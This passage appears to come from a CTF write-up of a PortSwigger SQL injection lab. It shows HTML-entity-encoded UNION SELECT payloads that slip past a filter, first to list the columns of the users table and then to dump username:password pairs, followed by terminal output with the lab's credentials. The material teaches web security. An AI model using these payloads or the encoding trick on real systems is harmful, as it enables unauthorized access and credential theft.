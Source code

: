 **After that, we can list all columns in that table:**
```py
# UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#111;&#108;&#117;&#109;&#110;&#95;&#110;&#97;&#109;&#101;&#32;&#70;&#82;&#79;&#77;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#99;&#111;&#108;&#117;&#109;&#110;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#61;&#39;&#117;&#115;&#101;&#114;&#115;&#39;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py               
381 units
password
username
```

- Found columns in table `users`: `password`, `username`

**Finally, we can extract all information from that table:**
```py
# UNION SELECT username||':'||password FROM users
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#124;&#124;&#39;&#58;&#39;&#124;&#124;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
carlos:87v3kz1n8lj3lsbk16lb
administrator:g71rod6iiqnst89r8ver
381 units
wiener:0nsi7q3oliz4bltzgrcn
```

- Found `administrator` password: `g71rod6iiqnst89r8ver`

**Let's login as `administrator`!!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211033058.png)

